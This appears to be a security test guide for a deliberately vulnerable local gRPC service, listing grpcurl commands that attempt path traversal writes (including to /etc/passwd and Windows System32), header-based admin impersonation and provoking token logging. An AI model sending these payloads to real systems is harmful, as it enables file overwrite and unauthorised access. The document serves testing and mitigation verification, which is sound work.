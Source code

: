# Security Test Scripts

## Path Traversal Vulnerability Test

The following examples demonstrate the critical path traversal vulnerability identified in the `SetRecord` method:

### Example 1: Writing to arbitrary location
```bash
# This could write a malicious file to the system
grpcurl -plaintext -d '{
  "name": "test",
  "value": "malicious content",
  "path": "../../../tmp/hacked.txt"
}' localhost:5187 insecure.Insecure/SetRecord
```

### Example 2: Attempting to overwrite system files (Linux)
```bash
# DANGEROUS: Could overwrite critical system files if service has permissions
grpcurl -plaintext -d '{
  "name": "evil",
  "value": "hacked",
  "path": "../../../etc/passwd"
}' localhost:5187 insecure.Insecure/SetRecord
```

### Example 3: Windows path traversal
```bash
# DANGEROUS: Could write to Windows system directories
grpcurl -plaintext -d '{
  "name": "windows_attack",
  "value": "malicious executable",
  "path": "..\\..\\..\\Windows\\System32\\malicious.exe"
}' localhost:5187 insecure.Insecure/SetRecord
```

## Authentication Bypass Test

### User Impersonation via Headers
```bash
# Impersonate an administrator
grpcurl -plaintext \
  -H "x-impersonate: admin" \
  -d '{"name": "secret_data"}' \
  localhost:5187 insecure.Insecure/GetRecord

# Impersonate any user
grpcurl -plaintext \
  -H "x-user-id: victim_user" \
  -d '{"name": "sensitive_info"}' \
  localhost:5187 insecure.Insecure/GetRecord
```

## Information Disclosure Test

### Authorization Header Logging
```bash
# This will cause the server to log the authorization header
grpcurl -plaintext \
  -H "authorization: Bearer secret_token_12345" \
  -d '{"name": "test"}' \
  localhost:5187 insecure.Insecure/GetRecord
```

Check the server logs for the leaked authorization token.

## Setup Instructions for Testing

1. Install grpcurl:
   ```bash
   # Linux/macOS
   go install github.com/fullstorydev/grpcurl/cmd/grpcurl@latest
   
   # Or download binary from: https://github.com/fullstorydev/grpcurl/releases
   ```

2. Start the vulnerable server:
   ```bash
   cd CopilotAgentTests/Grpc.Echo.Server
   dotnet run
   ```

3. Run the test commands above

## ⚠️ WARNING ⚠️
These tests are for demonstration purposes only and should NEVER be run against production systems. They demonstrate real security vulnerabilities that could cause system compromise.

## Mitigation Verification

After implementing security fixes, these same tests should fail or be blocked by the security controls.